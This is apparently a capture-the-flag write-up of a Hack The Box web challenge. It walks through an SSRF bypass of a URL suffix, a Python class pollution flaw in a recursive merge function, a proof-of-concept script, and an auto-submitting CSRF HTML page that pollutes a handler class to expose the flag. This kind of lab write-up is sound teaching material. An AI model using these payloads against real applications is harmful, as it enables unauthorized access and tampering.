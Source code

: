 ```yaml
---
title: Hackthebox Challenge - TornadoService
date: 2024-08-31
categories: [Writeups, Hackthebox Challenge]
tags: [CTF, Web, medium]
---
```


# TornadoService - MEDIUM

## Description

<Sup>Author: @leanthedev</sup><br>
You have found a portal of the recently arising tornado malware, it appears to have some protections implemented but a bet was made between your peers that they are not enough. Will you win this bet?

## TL;DR

The challenge involves a function called `update_tornados` in the `general.py` file, which is vulnerable to a Class Pollution attack.

In the `main.py` file, the `update_tornados` function can only be accessed from localhost. To exploit this, we need to use a CSRF attack to target the bot, sending a class pollution payload to corrupt the ProtectedContentHandler class.

## Solution

Upon first inspecting the code, I noticed that the flag is stored in the `ProtectedContentHandler` class. However, to access the flag, we need to set `self.current_user` to False.

```python
class ProtectedContentHandler(BaseHandler):
    def get_current_user(self):
        return self.get_secure_cookie("user")

    def get(self):
    	self.set_header("Content-Type", "application/json")
    	if not self.current_user:
    		self.set_status(401)
    		self.write(json_response("Unauthorized access", "Unauthorized", error=True))
    		return

    	flag = read_file_contents("/flag.txt")
    	self.write(json_response(flag, "Success"))

```

This challenge provides a bot on the `report_tornado` endpoint. When you submit a report, the `bot.py` script will send a GET request to the IP address provided in the parameters, as shown in the code below.

```python
# Method GET /?ip=google.com
ip_param = self.get_argument("ip", None)
tornado_url = f"http://{ip_param}/agent_details"
```

This Python code is vulnerable to an SSRF attack. When I send a payload like:

```
0.0.0.0/something?a=
0.0.0.0/#
```

it combines with tornado_url, resulting in `http://0.0.0.0/something?a=/agent_details`, allowing me to bypass the URL suffix.

At this point, I wondered why this challenge provides me with a bot. After further investigation, I discovered the `UpdateTornadoHandler` class in `general.py`, which can only be accessed from localhost.

```python
class UpdateTornadoHandler(BaseHandler):
    [...]
	def post(self):
		self.set_header("Content-Type", "application/json")
		if not is_request_from_localhost(self):
			self.set_status(403)
			self.write(json_response("Only localhost can update tornado status.", "Forbidden", error=True))
			return

    [...]
```

The `UpdateTornadoHandler` class is vulnerable to CSRF because it lacks a CSRF token. Additionally, this class calls the `update_tornados(data, tornado)` function, which can be found in the `general.py` file.

```python
def update_tornados(tornado, updated):
    for index, value in tornado.items():
        if hasattr(updated, "__getitem__"):
            if updated.get(index) and type(value) == dict:
                update_tornados(value, updated.get(index))
            else:
                updated[index] = value
        elif hasattr(updated, index) and type(value) == dict:
            update_tornados(value, getattr(updated, index))
        else:
            setattr(updated, index, value)
```

The update_tornados function is vulnerable to a Class Pollution attack. You can learn more about Class Pollution in Python [here](https://blog.abdulrah33m.com/prototype-pollution-in-python/).

To exploit this vulnerability, I need to leverage CSRF to trick the bot into sending a class pollution payload that corrupts the `ProtectedContentHandler` class.

Before executing the exploit, I created a playground to test my proof of concept (PoC) using a small Python script.

```python
class BaseClass:
    pass

class VulnClass:
    def __init__(self):
        pass

class WinClass(BaseClass):
    def checkWin(self):
        if self.win == "win":
            print("You win!")

def merge(tornado, updated):
    for index, value in tornado.items():
        if hasattr(updated, "__getitem__"):
            if updated.get(index) and type(value) == dict:
                merge(value, updated.get(index))
            else:
                updated[index] = value
        elif hasattr(updated, index) and type(value) == dict:
            merge(value, getattr(updated, index))
        else:
            setattr(updated, index, value)

payload = {
    '__class__': {
        '__init__': {
            '__globals__': {
                'WinClass' : {
                    'win': 'win',
                }
            }
        }
    }
}

A = VulnClass()
merge(payload, A)

B = WinClass()
B.checkWin()
```

When I run this code, it prints `You win!`, which confirms that my proof of concept (PoC) is working.

Now, let's exploit this challenge.

### Exploit

```html
<html>
  <body>
    <form
      action="http://0.0.0.0:1337/update_tornado"
      method="POST"
      enctype="text/plain"
    >
      <input
        type="hidden"
        name='{"machine_id": "host-3222","ip_address": "0.0.0.0","status": "something", "__class__": {"__init__":{"__globals__":{"ProtectedContentHandler": {"current_user": "true" }}}},"a":"'
        value='"}'
      />
    </form>
    <script>
      document.forms[0].submit();
    </script>
  </body>
</html>
```

I set up a server with the following HTML and sent the IP to the bot, successfully bypassing the URL suffix.

Now, when you access the `/stats` endpoint, the flag will be displayed.

> flag HTB{REDACTED}
